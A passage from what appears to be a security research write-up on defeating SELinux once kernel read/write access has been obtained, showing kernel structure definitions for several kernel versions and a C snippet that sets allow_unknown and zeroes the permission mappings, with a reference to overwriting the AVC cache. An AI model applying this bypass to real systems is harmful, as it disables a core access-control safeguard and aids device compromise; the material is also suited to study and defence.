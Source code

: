 We can abuse this to bypass SELinux by setting `policydb->allow_unknown` to true and filling `map.mapping[tclass].perms` with zeroes.

In Linux kernel 5.15, the `selinux_map`, which contains both the dynamically allocated array `mapping` indexed by class and its size, is at `&selinux_state.policy->map`, and the `allow_unknown` is at `&selinux_state.policy->policydb.allow_unknown`.

```
/* Mapping for a single class */
struct selinux_mapping {
	u16 value; /* policy value for class */
	unsigned int num_perms; /* number of permissions in class */
	u32 perms[sizeof(u32) * 8]; /* policy values for permissions */
};

/* Map for all of the classes, with array size */
struct selinux_map {
	struct selinux_mapping *mapping; /* indexed by class */
	u16 size; /* array size of mapping */
};

struct selinux_policy {
	struct sidtab *sidtab;
	struct policydb policydb;
	struct selinux_map map;
	u32 latest_granting;
} __randomize_layout;
```

> On older versions (4.19), `policydb` and `map` were both embedded in a global variable `selinux_ss`. On even older versions (4.14), `policydb` was a global variable, and `map` corresponded to global variables `current_mapping` and `current_mapping_size`.

Therefore, the bypass for 4.14 would look something like this:

```
// Set policydb.allow_unknown to true
kwrite8(policydb_addr + OFFSET_ALLOW_UNKNOWN, 2);

// Overwrite mapping so everything is unknown
uint64_t current_mapping_size = kread16(current_mapping_size_addr);
uint64_t current_mapping = kread64(current_mapping_addr);
uint8_t zeroes[FIELD_SIZEOF(struct selinux_mapping, perms)] = {};
for (size_t tclass = 0; tclass < current_mapping_size; tclass++) {
	uint64_t mapping = current_mapping + tclass*sizeof(struct selinux_mapping);
	kwrite(mapping + offsetof(struct selinux_mapping, perms),
	       zeroes, sizeof(zeroes));
}
```

The mapping is only modified when loading a new policy, so if we don’t reload the policy, we only need to do this once. But note that like the previous bypass, this targets `security_compute_av()`, and thus additionally it may be needed to [overwrite the AVC cache](#bypass-3-overwrite-avc-cache) to remove cached denied permission requests.
